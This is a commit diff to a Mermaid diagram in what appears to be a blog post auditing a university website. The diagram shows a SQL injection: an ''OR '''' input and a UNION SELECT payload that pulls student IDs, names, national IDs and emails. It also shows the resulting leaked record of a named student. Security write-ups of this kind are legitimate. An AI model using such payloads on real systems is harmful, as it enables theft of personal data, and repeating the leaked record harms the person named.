

One commit to Zere0/zere0.github.io changed the second of 5 diagrams in _posts/2025-10-06-university-web-audit.md. Above: the diagram before and after it, drawn with Mermaid. The commit also changed other lines of this file and 35 other files, not shown here.

````diff
--- a/_posts/2025-10-06-university-web-audit.md
+++ b/_posts/2025-10-06-university-web-audit.md
@@ -133,9 +134,9 @@
 ```mermaid
 %%{init: { "flowchart": { "wrappingWidth": 360 } }}%%
 flowchart TD
-    B["enrollment number</br></br>*'OR ''*"] --> D["length==6  ✅"]
-    C["National ID</br></br>*=2 UNION SELECT CONCAT(STUDENTID, CHAR(32), STUDENTNAME, CHAR(32), nationalId, CHAR(32), ENROLLMENTNUMBER, CHAR(32), SURNAME, CHAR(32), EMAIL, CHAR(32), GROUP) FROM STUDENT WHERE STUDENTID = 10425-- -*"] --> E["quotes removed  ✅"]
+    B["enrollment number</br></br>'OR ''"] --> D["length==6  ✅"]
+    C["National ID</br></br>=2 UNION SELECT CONCAT(STUDENTID, CHAR(32), STUDENTNAME, CHAR(32), nationalId, CHAR(32), ENROLLMENTNUMBER, CHAR(32), SURNAME, CHAR(32), EMAIL, CHAR(32), GROUP) FROM STUDENT WHERE STUDENTID = 10425-- -"] --> E["quotes removed  ✅"]
     D --> G["UNION SELECT from STUDENT executes"]
     E --> G["UNION SELECT from STUDENT executes"]
-    G --> H["**Group identifier lookup response:**</br></br>Student with National ID/Passport:</br>*=2 UNION SELECT CONCAT(STUDENTID, CHAR(32), STUDENTNAME, CHAR(32), nationalId, CHAR(32), ENROLLMENTNUMBER, CHAR(32), SURNAME, CHAR(32), EMAIL, CHAR(32), GROUP) FROM STUDENT WHERE STUDENTID = 10425-- -* </br></br>and with enrollment number:</br>*'OR ''* </br></br>is assigned the group number:</br><mark>10425 José Luis 33333333 000009 Fuertes Castro admin\@fi.upm.es G-553T</mark>"]
+    G --> H["Group identifier lookup response:</br></br>Student with National ID/Passport:</br>=2 UNION SELECT CONCAT(STUDENTID, CHAR(32), STUDENTNAME, CHAR(32), nationalId, CHAR(32), ENROLLMENTNUMBER, CHAR(32), SURNAME, CHAR(32), EMAIL, CHAR(32), GROUP) FROM STUDENT WHERE STUDENTID = 10425-- - </br></br>and with enrollment number:</br>'OR '' </br></br>is assigned the group number:</br><mark>10425 José Luis 33333333 000009 Fuertes Castro admin@fi.upm.es G-553T</mark>"]
 ```
````
